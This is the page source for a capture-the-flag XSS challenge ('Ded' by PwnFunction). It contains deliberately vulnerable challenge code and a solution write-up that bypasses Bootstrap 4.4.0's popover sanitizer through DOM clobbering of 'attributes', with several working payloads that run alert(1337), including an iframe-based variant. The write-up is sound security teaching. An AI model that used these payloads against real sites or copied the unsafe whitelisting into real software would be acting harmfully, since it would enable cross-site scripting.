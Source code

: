 ```yaml
---
title: "XSS Game - Ded | PwnFunction"
header: "Ded"
challengeUrl: "https://sandbox.pwnfunction.com/challenges/ded.html"
date: 2020-04-01T01:07:10+05:30
draft: false
type: challenge
difficulty: Medium
solvers: 7
---
```


<!-- Rules -->
{{< rules >}}
<li>Difficulty is <b>Medium</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
<li><i>Challenge was downgraded because of Jquery's endless mutations</i>.</li>
<li>Unintended solution? DM me <a target="_blank"
                            href="https://twitter.com/messages/compose?recipient_id=1084132461133451264"
                            class="function">@PwnFunction</a>.
                    </li>
{{</ rules >}}

<!-- Challenge Code -->
{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;div id=&#x22;ded&#x22;&#x3E;
    &#x3C;button type=&#x22;button&#x22; class=&#x22;btn btn-lg btn-danger&#x22; data-toggle=&#x22;popover&#x22; title=&#x22;Hints&#x22; data-html=&#x22;true&#x22;
        data-content=&#x22;&#x3C;li&#x3E;Anything different about this challenge?&#x3C;/li&#x3E;
        &#x3C;li&#x3E;Look Deeper!&#x3C;/li&#x3E;&#x22;&#x3E;Lemme help you.&#x3C;/button&#x3E;
&#x3C;/div&#x3E;

&#x3C;script&#x3E;
    /* Inputs */
    let code = (new URL(location).searchParams.get(&#x27;code&#x27;)).replace(/script/ig, &#x22;_&#x22;) || &#x60;&#x3C;li&#x3E;&#x3C;strike&#x3E;ded&#x3C;/strike&#x3E;&#x3C;/li&#x3E;&#x60;

    let clean = DOMPurify.sanitize(code, { SAFE_FOR_JQUERY: true })
    document.getElementById(&#x27;ded&#x27;).innerHTML += clean
&#x3C;/script&#x3E;

&#x3C;!-- Jquery(3.4.1), Popper(1.16.0), Bootstrap(4.4.0) --&#x3E;
&#x3C;script src=&#x22;https://code.jquery.com/jquery-3.4.1.slim.min.js&#x22;
integrity=&#x22;sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n&#x22;
crossorigin=&#x22;anonymous&#x22;&#x3E;&#x3C;/script&#x3E;
&#x3C;script src=&#x22;https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js&#x22;
integrity=&#x22;sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo&#x22;
crossorigin=&#x22;anonymous&#x22;&#x3E;&#x3C;/script&#x3E;
&#x3C;script src=&#x22;https://stackpath.bootstrapcdn.com/bootstrap/4.4.0/js/bootstrap.min.js&#x22;
integrity=&#x22;sha384-3qaqj0lc6sV/qpzrc1N5DC6i1VRn/HyX4qdPaiEFbn54VjQBEU341pvjz7Dv3n6P&#x22;
crossorigin=&#x22;anonymous&#x22;&#x3E;&#x3C;/script&#x3E;

&#x3C;script&#x3E;
/* Extend Bootstrap Popover */
let whiteList = $.fn.tooltip.Constructor.Default.whiteList
whiteList.form = []

/* Popovers! */
$(function () {
    $(&#x27;[data-toggle=&#x22;popover&#x22;]&#x27;).popover(&#x27;show&#x27;)
})
&#x3C;/script&#x3E;
</code>{{< /code >}}

<!-- Solvers -->
{{< solvers >}}
<tr>
    <th scope="row">1</th>
    <td><a href="https://twitter.com/@shafigullin" target="_blank" class="function">Roman</a>
    </td>
    <td>Unintended (fixed) & Intended</td>
</tr>
<tr>
    <th scope="row">2</th>
    <td><a href="https://twitter.com/@terjanq" target="_blank" class="function">terjanq</a>
    </td>
    <td>Unintended x 2 (fixed) & Intended</td>
</tr>
<tr>
    <th scope="row">3</th>
    <td><a href="https://twitter.com/@BitK_" target="_blank" class="function">BitK</a>
    </td>
    <td>Intended (original challenge)</td>
</tr>
<tr>
    <th scope="row">4</th>
    <td><a href="https://twitter.com/@Black2Fan" target="_blank" class="function">Sergey Bobrov</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">5</th>
    <td><a href="https://twitter.com/@SecurityMB" target="_blank" class="function">Michał Bentkowski</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">6</th>
    <td><a href="https://twitter.com/@ZeddYu_Lu" target="_blank" class="function">Zeddy</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">7</th>
    <td><a href="https://twitter.com/@raaavr" target="_blank" class="function">Rafał Rykowski</a>
    </td>
    <td>Intended</td>
</tr>
{{< /solvers >}}

<!-- Solution Modal -->
{{< solution >}}
Solution is ...
<pre class="solution-code-block"><code class="language-markup">&#x3C;button data-toggle=&#x22;popover&#x22; data-html=&#x22;true&#x22; data-content=&#x22;&#x3C;form class=&#x27;spinner-grow&#x27; onanimationstart=alert(1337)&#x3E;&#x3C;input id=attributes&#x3E;&#x22;&#x3E;yo!&#x3C;/button&#x3E;</code></pre>

First off, notice that <b>Bootstrap(4.4.0)</b> is used instead of the latest version, which means it's something specific to it. There's a button, which is a popover showing a bunch of hints for the challenge. From the code below, you can see that all elements with <code>data-toggle="popover"</code> becomes a Bootstrap Popover. 

<pre class="solution-code-block"><code class="language-js">/* Popovers! */
$(function () {
    $(&#x27;[data-toggle=&#x22;popover&#x22;]&#x27;).popover(&#x27;show&#x27;)
})</code></pre>

Here it calls with <code>'show'</code> as it's argument, which means the popovers are automatically shown to the user. Popovers can have their content set via HTML, which should be interesting for us since it takes the HTML as a string like you see down below.

<pre class="solution-code-block"><code class="language-markup">&#x3C;button data-toggle=&#x22;popover&#x22; data-html=&#x22;true&#x22; data-content=&#x22;&#x3C;h1&#x3E;I&#x27;m a header&#x3C;/h1&#x3E;&#x22;&#x3E;yo!&#x3C;/button&#x3E;</code></pre>

Where <code>&#x3C;h1&#x3E;I&#x27;m a header&#x3C;/h1&#x3E;</code> becomes the header element inside the popover. But the HTML is sanitized by <a target=_blank class=function href="https://github.com/twbs/bootstrap/blob/v4.4.0/js/src/tools/sanitizer.js">custom sanitizer</a>. The sanitizer has a <a target=_blank href="https://github.com/twbs/bootstrap/blob/v4.4.0/js/src/tools/sanitizer.js#L21" class=function>Default Whitelist</a>, but the challenge adds a new element into the whitelist, see below.

<pre class="solution-code-block"><code class="language-js">let whiteList = $.fn.tooltip.Constructor.Default.whiteList
whiteList.form = []</code></pre>

Empty array indicates, no extra attributes execpt what bootstrap allows. <br />

<code>['class', 'dir', 'id', 'lang', 'role', ARIA_ATTRIBUTE_PATTERN]</code> <br /><br />

Now, one of the hints was to look "deeper", which means you gotta look into the <a target=_blank class=function href="https://github.com/twbs/bootstrap/blob/v4.4.0/js/src/tools/sanitizer.js">sanitizer</a> and see if there's a way out. If you look closely at the source, you'll find some places where you can do some <a class=pwn href="https://youtu.be/2up8J9dErHI?t=797" target=_blank>DOM Clobbering</a>. One such places is <a target=_blank class=pwn href="https://github.com/twbs/bootstrap/blob/master/js/src/util/sanitizer.js#L116">here</a>.

<pre class="solution-code-block"><code class="language-js">const attributeList = [].concat(...el.attributes)</code></pre>

If the element is <code>form</code>, then we can clobber the properties of that element using some of it's child elements. In this case, we want to clobber <code>attributes</code>, because if we fool the sanitizer by tricking that there are no attributes on the element, then we can do a lot of damage. So we can do something like the following.

<pre class="solution-code-block"><code class="language-markup">&#x3C;form&#x3E;
  &#x3C;input id=attributes&#x3E;</code></pre>

Now when the sanitizer tries to get all the attributes of the <b>form</b> element, it gets the <b>HTMLInputElement</b> instead of the actual attributes on the <b>form</b> element. Further, when it does a <code>concat</code> on the <b>HTMLInputElement</b>, it returns a empty array, which means we've successfully fooled the sanitizer into thinking that there are no attributes on the form.

<pre class="solution-code-block"><code class="language-js">[].concat(HTMLInputElement) // returns []</code></pre>

Now let's craft this, 

<pre class="solution-code-block"><code class="language-markup">&#x3C;button data-toggle=&#x22;popover&#x22; data-html=&#x22;true&#x22; data-content=&#x22;&#x3C;form onmouseover=alert(0)&#x3E;xxx&#x3C;input id=attributes&#x3E;&#x22;&#x3E;yo!&#x3C;/button&#x3E;</code></pre>

This is fine, we have an XSS, but it requires User Interaction, and the challenge clearly states you shouldn't rely on it. There are two ways to go about this. <br /><br />

<p><b><u>First Way</u></b></p>
We can use <code>onfocus</code> event handler on <code>form</code> element, but it won't be autofocused, so to do this we can frame the challenge webpage inside an <code>&#x3C;iframe&#x3E;</code> and then wait for a fews seconds so that the page is loaded and then update the hash. This will focus on the iframe, but also doesn't reload the whole iframe, which will trigger the XSS.

<pre class="solution-code-block"><code class="language-markup">&#x3C;!-- Frame the challenge --&#x3E;
&#x3C;iframe name=x src=&#x22;https://sandbox.pwnfunction.com/challenges/ded.html?code=&#x3C;button data-toggle=popover data-html=true data-content=&#x27;&#x3C;form tabindex=1 onfocus=alert(1337) id=x&#x3E;&#x3C;input id=attributes&#x3E;xxx&#x3C;/input&#x3E;&#x3C;/form&#x3E;&#x27;&#x3E;&#x3C;/button&#x3E;&#x22;&#x3E;&#x3C;/iframe&#x3E;

&#x3C;!-- wait &#x26; update --&#x3E;
&#x3C;script&#x3E;setTimeout(function(){x.location=&#x22;https://sandbox.pwnfunction.com/challenges/ded.html?code=&#x3C;button data-toggle=popover data-html=true data-content=&#x27;&#x3C;form tabindex=1 onfocus=alert(1337) id=x&#x3E;&#x3C;input id=attributes&#x3E;xxx&#x3C;/input&#x3E;&#x3C;/form&#x3E;&#x27;&#x3E;xxx&#x3C;/button&#x3E;#x&#x22;},3000)&#x3C;/script&#x3E;</code></pre><br />

<p><b><u>Second Way</u></b></p>
We can use <code>onanimationstart</code> on the <code>form</code> element, but to do this we should have an animation keyframe, so we need the <code>style</code> tag to add keyframes, but guess what, style tags aren't in the whitelist, so what do we do? We can simply use one of the available animations from bootstrap, duh, ez. 

<pre class="solution-code-block"><code class="language-markup">&#x3C;button data-toggle=&#x22;popover&#x22; data-html=&#x22;true&#x22; data-content=&#x22;&#x3C;form class=&#x27;spinner-grow&#x27; onanimationstart=alert(1337)&#x3E;&#x3C;input id=attributes&#x3E;&#x22;&#x3E;yo!&#x3C;/button&#x3E;</code></pre>

Here, I've used <code>spinner-grow</code> from <a target=_blank class=function href="https://github.com/twbs/bootstrap/blob/64050f43bc28106c697cedb4c9291ac6572b4d4e/scss/_spinners.scss#L31">here</a>.

{{< /solution >}}